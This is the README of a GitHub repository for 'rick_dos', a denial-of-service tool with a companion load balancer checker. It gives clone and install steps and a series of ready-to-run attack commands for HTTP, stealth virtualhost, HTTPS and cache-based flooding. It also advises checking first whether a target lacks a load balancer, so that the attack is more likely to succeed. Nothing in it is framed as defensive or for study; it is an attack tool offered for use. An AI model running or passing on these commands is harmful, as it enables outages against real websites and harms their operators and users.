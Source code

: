 # rick_dos and Load Balancer Check
Tool Write in Python to Make Denial of Service and Verify if Site have Load Balancer

I recomend use Linux to make attack, this tool make SYN flood on DNS

To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

#Install

```
git clone https://github.com/rickgds80/rick_dos.git

cd rick_dos
sudo chmod +x rickhack.pl rickhack_loadbalancer_check.sh
```

# dependencies
```
sudo apt-get install perl-doc
```

# usage:


**To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

Load Balancer Check:

usage: ./rickhack_loadbalancer_check.sh [domain]
Dont use http or https in name of domain
usage: ./rickhack_loadbalancer_check.sh example.com

```
./rickhack_loadbalancer_check.sh example.com
```

![image](https://user-images.githubusercontent.com/38327991/158487328-fa3be986-7ae3-4033-878b-869acc2d381f.png)


If the target has a load balancer it will appear like this:

![image](https://user-images.githubusercontent.com/38327991/158487613-a44542aa-3604-4147-9974-1d418e3487be.png)



For Help:
```
perldoc ./rickhack.pl
```

For testting the program:
```
./rickhack.pl -dns www.example.com -port 80 -test
```


For HTTP Dos Attack:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5
```

Attack with httpready:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5 -httpready
```

Attack with stealth mode using virtualhost
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com
```

Attack on sites with HTTPS, SSL
```
./rickhack.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https
```

Attack with Cache
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache
```


# Glory to Ukraine!!!

![image](https://user-images.githubusercontent.com/38327991/158488171-b2d3fb1a-d100-4940-ac47-a9bd9dc0c2f0.png)
